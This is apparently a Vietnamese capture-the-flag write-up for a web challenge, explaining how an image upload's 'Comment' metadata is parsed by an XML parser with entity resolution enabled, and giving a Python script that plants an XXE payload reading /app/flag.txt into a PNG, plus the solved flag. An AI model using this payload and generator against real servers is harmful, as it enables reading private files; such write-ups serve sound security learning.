



start chall lên chỉ thấy có feature upload file với extension được phép là `png, jpg`



route `/check`

mình focus vào dòng 59-62

dòng 59 chuyển nội dung trả về thành JSON, sau đó lấy trường `Comment`
dòng 60 tạo một đối tượng `XML parser` với cấu hình cụ thể, `no_network=False` và `resolve_entities=True` có thể dẫn tới XXE Injection
dòng 61 phân tích XML từ trường `Comment` và chuyển nó thành XML tree

Hướng khai thác: mình tạo ra 1 ảnh và thêm vào ảnh đó 1 trường `Comment` chứa script XXE, để khi sử dụng `/check` nó sẽ parse ra XML mà exec `Comment` đó

Script python tạo png

```
from PIL import Image, PngImagePlugin

# Tạo một ảnh mới với kích thước 200x200, nền màu trắng
image = Image.new("RGB", (200, 200), "white")

# Đường dẫn để lưu ảnh
output_path = "image_with_xxe.png"

# Payload XXE mà bạn muốn thêm vào trường Comment
xxe_payload = """<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///app/flag.txt" >]>
<foo>&xxe;</foo>"""

# Tạo một đối tượng info chứa metadata
metadata = PngImagePlugin.PngInfo()

# Thêm trường Comment với payload XXE
metadata.add_text("Comment", xxe_payload)

# Lưu ảnh với metadata mới vào file PNG khác
image.save(output_path, "PNG", pnginfo=metadata)

print(f"XXE payload has been added to the image and saved as {output_path}")

```

upload file này lên trên `file.io` nhé ae


nhớ bypass check `Host`
và booomm



Flag: `PCTF{Y0u_D00m3D_U5_Man_So_SAD}`


